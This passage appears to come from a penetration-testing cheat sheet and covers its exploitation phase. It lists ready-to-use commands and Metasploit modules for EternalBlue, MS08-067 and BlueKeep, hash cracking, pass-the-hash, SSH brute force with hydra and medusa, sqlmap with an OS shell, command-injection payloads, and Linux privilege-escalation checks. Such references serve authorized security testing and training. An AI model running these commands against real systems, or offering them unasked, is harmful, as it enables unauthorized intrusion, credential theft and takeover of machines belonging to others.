 - **Network Services**
  - Default credentials testing
  - Weak authentication mechanisms
  - Unpatched service versions

---

## Phase 5: Exploitation

### Windows Exploitation

#### SMB/NetBIOS Exploits
- **EternalBlue (MS17-010)**
  - Detection: `nmap --script smb-vuln-ms17-010 <target_ip>`
  - Exploitation: `use exploit/windows/smb/ms17_010_eternalblue`

- **SMBv1 Vulnerabilities**
  - `use exploit/windows/smb/ms08_067_netapi`
  - `use exploit/windows/smb/ms06_025_rasmans_reg`

#### RDP Exploitation
- **BlueKeep (CVE-2019-0708)**
  - Detection: `nmap --script rdp-vuln-ms12-020 <target_ip>`
  - Exploitation: `use exploit/windows/rdp/cve_2019_0708_bluekeep_rce`

#### Windows Service Exploits
- **Weak Service Permissions**
  - `sc qc <service_name>`
  - `accesschk.exe -uwcqv "Authenticated Users" *`

#### Password Attacks
- **Hash Cracking**
  - `john --format=NT hashes.txt`
  - `hashcat -m 1000 hashes.txt wordlist.txt`
- **Pass-the-Hash**
  - `pth-winexe -U <domain>/<user>%<hash> //<target_ip> cmd`

### Linux Exploitation

#### SSH Brute Force
- `hydra -l <username> -P /usr/share/wordlists/rockyou.txt ssh://<target_ip>`
- `medusa -h <target_ip> -u <username> -P wordlist.txt -M ssh`

#### Web Application Exploits
- **SQL Injection**
  - `sqlmap -u "http://<target_ip>/page.php?id=1" --dbs`
  - `sqlmap -u "http://<target_ip>/page.php?id=1" --os-shell`

- **Command Injection**
  - Manual testing with payloads: `; id`, `| whoami`, `&& uname -a`

#### Privilege Escalation (Linux)
- **SUID Binaries**: `find / -perm -4000 2>/dev/null`
- **Sudo Privileges**: `sudo -l`
- **Kernel Exploits**: `uname -a` then search exploit-db
- **Cron Jobs**: `cat /etc/crontab`, `ls -la /etc/cron*`
